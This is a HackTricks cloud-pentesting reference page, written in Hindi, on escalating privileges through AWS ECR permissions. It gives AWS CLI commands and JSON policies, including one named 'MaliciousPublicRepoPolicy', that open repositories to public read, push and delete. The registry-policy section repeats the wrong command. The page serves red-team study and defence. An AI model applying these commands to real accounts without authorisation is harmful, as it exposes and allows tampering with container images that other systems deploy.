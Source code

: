 # AWS - ECR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

एक हमलावर जिसके पास **`ecr:GetAuthorizationToken`** और **`ecr:BatchGetImage`** हैं, वह ECR में लॉगिन कर सकता है और इमेज डाउनलोड कर सकता है।

इमेज डाउनलोड करने के तरीके के बारे में अधिक जानकारी के लिए:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**संभावित प्रभाव:** ट्रैफिक में संवेदनशील जानकारी को इंटरसेप्ट करके अप्रत्यक्ष प्रिविलेज़ एस्कलेशन।

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

एक हमलावर जिसके पास ये सभी अनुमतियाँ हैं, **ECR में लॉगिन कर सकता है और इमेज अपलोड कर सकता है**। यह उन अन्य वातावरणों में प्रिविलेज़ बढ़ाने के लिए उपयोगी हो सकता है जहाँ ये इमेज उपयोग की जा रही हैं।

नई इमेज अपलोड करने/एक को अपडेट करने के तरीके के लिए, देखें:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

पिछले अनुभाग की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।

### `ecr:SetRepositoryPolicy`

एक हमलावर जिसके पास यह अनुमति है, वह **रिपॉजिटरी** **नीति** को **बदल** सकता है ताकि वह (या यहां तक कि सभी) को **पढ़ने/लिखने की अनुमति** मिल सके।\
उदाहरण के लिए, इस उदाहरण में सभी को पढ़ने की अनुमति दी गई है।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json` की सामग्री:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

पिछले अनुभाग की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।\
एक हमलावर **रिपॉजिटरी नीति को संशोधित** कर सकता है ECR सार्वजनिक रिपॉजिटरी की ताकि अनधिकृत सार्वजनिक पहुंच प्रदान की जा सके या अपनी विशेषाधिकारों को बढ़ा सके।

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**संभावित प्रभाव**: ECR सार्वजनिक रिपॉजिटरी तक अनधिकृत सार्वजनिक पहुंच, जिससे कोई भी उपयोगकर्ता छवियों को पुश, पुल या हटाने की अनुमति प्राप्त कर सकता है।

### `ecr:PutRegistryPolicy`

इस अनुमति के साथ एक हमलावर **पॉलिसी** को **बदल** सकता है ताकि वह अपने लिए, अपने खाते (या यहां तक कि सभी के लिए) **पढ़ने/लिखने की पहुंच** प्रदान कर सके।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
